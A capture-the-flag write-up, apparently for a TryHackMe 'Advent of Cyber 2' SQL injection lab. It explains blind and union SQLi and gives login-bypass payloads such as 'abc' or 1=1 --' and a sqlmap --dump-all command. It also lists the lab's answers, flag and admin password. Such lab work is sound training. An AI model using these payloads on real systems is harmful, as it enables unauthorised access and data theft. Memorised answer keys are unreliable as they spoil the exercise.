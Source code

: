 # Day 5 - Someone stole Santa's gift list!

**Date:** 01, December, 2020

**Author:** Dhilip Sanjay S

---
## Fundamentals
- SQLi
1. Blind SQLi
    - Developers mitigate SQL Injection by restricting an application from displaying any error.
    - You can cause some observable changes using SLEEP(), SUBSTR() function, etc.
    - Error = 'No', No Error = 'Yes'

2. Union SQLi
    - Used for fast database enumeration
    - 3 steps:
        - Finding the number of columns: `ORDER BY/ UNION SELECT`
        - Checking if the columns are suitable: Replace with string in `UNION SELECT`
        - Attack and get some interesting data.

- Use [SQLMAP](https://github.com/sqlmapproject/sqlmap)
---
## Solutions
### Without using directory brute forcing, what's Santa's secret login panel?
- **Answer:** /santapanel
---

### Visit Santa's secret login panel and bypass the login using SQLi
- **Payload:** `abc' or 1=1 --`
- Alternatively, run **SQLMAP (1.2.4)** command:
```bash
sqlmap -r request-file --tamper=space2comment --dump-all
```
--- 

### How many entries are there in the gift database?
- **Answer:** 22
- **Steps to reproduce:** 
    - SQLMAP show all the entries in the table or use the payload below
    - **Payload:** `hi' or 1=1 --`
---

### What did Paul ask for?
- **Answer:** Github Ownership
- Check the table.
---

### What is the flag?
- **Answer:** thmfox{All_I_Want_for_Christmas_Is_You}
---

## What is admin's password?
- **Answer:** EhCNSWzzFP6sc7gB
---

[Back to Advent of Cyber 2](/Advent%20of%20Cyber%202) 